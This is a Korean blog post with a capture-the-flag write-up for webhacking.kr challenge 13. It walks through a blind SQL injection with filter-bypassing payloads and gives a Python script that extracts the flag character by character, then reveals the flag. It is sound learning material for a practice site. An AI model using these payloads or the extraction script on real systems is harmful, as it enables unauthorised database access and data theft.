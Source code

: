 ```yaml
---
layout: post
title: ! "[Webhacking.kr] 13"
categories: [Webhacking.kr]
excerpt: " "
comments: true
share: true
tags:
  - Web-hacking
  - webhacking.kr
  - write-up
---
```


webhacking.kr의 최고점(1000) 문제인 13번을 풀어보도록 하겠습니다.

![](/assets/posts/webhackingkr/13.png)

13번 문제는 친절하게도 HINT가 있다. `select flag from prob13password` 로, 컬럼명과 테이블명을 알려준다.
당연하게도 그대로 입력하면 `no hack`이 뜬다!

![](/assets/posts/webhackingkr/13_1.png)

1을 입력했을 경우, result : 1 과 같이 테이블처럼 보이는 것이 뜬다.

![](/assets/posts/webhackingkr/13_13.png)

확인 결과 출력되는 것은 result : 1, result : 0, no hack 세 개뿐인 것 같다.
왠지 결과값의 True or False로 확인하는 Blind SQL Injection의 냄새가 난다 ㅎㅎ

flag 컬럼의 row 수를 구하기 위해 아래와 같은 쿼리를 입력한다.

`?no=if((select(count(flag))from(prob13password))in(숫자),1,2)`

prob13password 테이블의 flag 컬럼의 row 수가 in 안의 숫자와 일치하면 no=1, 아니면 no=2가 된다.

![](/assets/posts/webhackingkr/13_count1.png)
![](/assets/posts/webhackingkr/13_count2.png)

다른 숫자도 넣어봤을 때 no=2일 때만 result가 참이었으므로 flag 컬럼의 row는 2개인 것을 확인할 수 있다.
데이터가 많지 않으므로 SQL의 min,max 함수를 사용해 데이터들의 최소, 최대 길이를 구할 것이다.
SQL 공부도 할겸 서버에서 직접 테스트 해봤다.

![](/assets/posts/webhackingkr/13_minmax.png)

문제 풀이를 위해 기존에 쓰던 코드를 조금 변형해서 짰다.
```py
# -*- coding : UTF-8 -*-
from requests import get
import string
from time import sleep

url = "http://webhacking.kr/challenge/web/web-10/"
cookies = dict(PHPSESSID="1f70714d3b9c01e58b7a5c6c6c1a08f2")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

ascii_list = []
for i in range(21,126):
        ascii_list.append(chr(i))

for i in range(1,50):
    parameter = "?no=if((select(max(length(flag)))from(prob13password))in("+str(i)+"),1,2)"
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("<tr><td>result</td></tr><tr><td>1</td></tr>") > 0:
        length = i + 1
        print("Max data length is "+str(i))
        break

for i in range(1, length):
        for a in string.printable:
                parameter = "?no=(substr((select%0amin(flag)%0afrom%0aprob13password)," + str(i) + ",1)in(" + hex(ord(a)) + "))"
                new_url = url + parameter
                r = get(new_url, cookies=cookies)

                if r.text.find("<td>1</td>") > 0:
                        print(str(i) + " -> "+a)
                        result += a
                        break

                if i == length:
                        print("\npassword is "+result)
                        print("\n")
```

max 데이터의 길이를 구하고, 길이를 구할 때 사용했던 쿼리를 조금 바꿔서  substr을 추가해주었다.
`(substr((select%0amin(flag)%0afrom%0aprob13password),1,1)in(0x66))`

이번 쿼리를 짜면서 헷갈리고 어려웠던 부분은 min과 hex의 사용이었다.
분명 Auth flag는 max 데이터일텐데 왜 select min(flag)를 하며, in(hex)를 사용하는가였다.
hex값과 똑같은 문자를 넣으면 거짓이 떴다.

다른 분들의 풀이를 참고해도 설명이 다 달라서 헷갈린다..ㅎㅎ 이 부분은 더 공부를 해봐야 할 것 같다.

![](/assets/posts/webhackingkr/13_flag.png)

여기서 나온 `challenge13luckclear` 를 Auth 부분에 입력하면 문제가 풀린다.

![](/assets/posts/webhackingkr/13_clear.png)


